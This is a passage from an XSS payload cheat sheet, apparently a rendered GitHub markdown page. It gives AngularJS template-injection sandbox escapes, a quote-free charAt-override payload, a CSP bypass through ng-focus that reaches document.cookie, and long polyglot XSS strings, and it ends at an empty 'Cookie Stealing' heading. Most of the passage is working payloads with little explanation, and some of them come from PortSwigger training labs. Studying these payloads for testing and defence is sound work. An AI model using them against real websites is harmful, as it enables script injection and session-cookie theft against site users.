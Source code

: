 ```txt
https://example.com/?search={{$eval.constructor('alert(1)')()}}
https://example.com/?search={{$on.constructor('alert(1)')()}}
```

To perform XSS without **`$eval`** function and quotes, we might be able to take another approach.  
[This PortSwigger's lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings) provides the following payload. But sorry, I don’t understand how it works at the moment.

```bash
# toString() : Create a string without quotes.
# toString().constructor.prototype.charAt=[].join :  Override `charAt` function for all strings with `[].join`.
# [1]|orderBy:toString().constructor.fromCharCode(...) : Pass an array to the `orderBy` filter.
# 120,61,97,108,101,114,116,40,49,41 : It means `x=alert(1)` in decimal.
https://example.com/?q=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

### AngularJS and CSP (Content Security Policy)

Reference: [PortSwigger's lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp)

If the website uses AngularJS with CSP (**`ng-csp`**) as below,

```html
<body ng-app ng-csp>
```

We need to bypass them by using a focus event (**`ng-focus`**), 

```html
/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
```

<br />

## Polyglot XSS

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

<br />

## Cookie Stealing
